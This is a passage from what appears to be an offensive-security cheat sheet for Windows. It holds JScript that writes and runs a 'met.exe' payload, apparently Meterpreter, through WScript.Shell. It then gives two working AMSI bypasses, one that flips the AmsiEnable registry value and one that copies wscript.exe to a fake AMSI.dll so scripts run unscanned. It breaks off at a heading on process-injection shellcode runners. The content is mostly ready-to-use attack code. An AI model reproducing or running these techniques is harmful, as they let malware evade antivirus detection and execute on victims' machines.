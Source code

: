 ```
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2); // 2 = overwrite
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

##### Jscript Amsi Enable Bypass

```
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
    var AmsiEnable = sh.RegRead(key);
    if(AmsiEnable!=0){
      throw new Error(1, '');
  }
}catch(e){
    sh.RegWrite(key, 0, "REG_DWORD");
    sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName,0,1);
    sh.RegWrite(key, 1, "REG_DWORD");
    WScript.Quit(1);
}
```

##### Jscript Amsi Imposter Bypass

```
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
    if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
    {
        throw new Error(1, '');
    }
}
catch(e)
{
    filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
    sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName);
    WScript.Quit(1);
}
```

### Process Injection Shellcode Runners

#### Basic Process Injection

Use to inject shellcode into another process using the process ID.
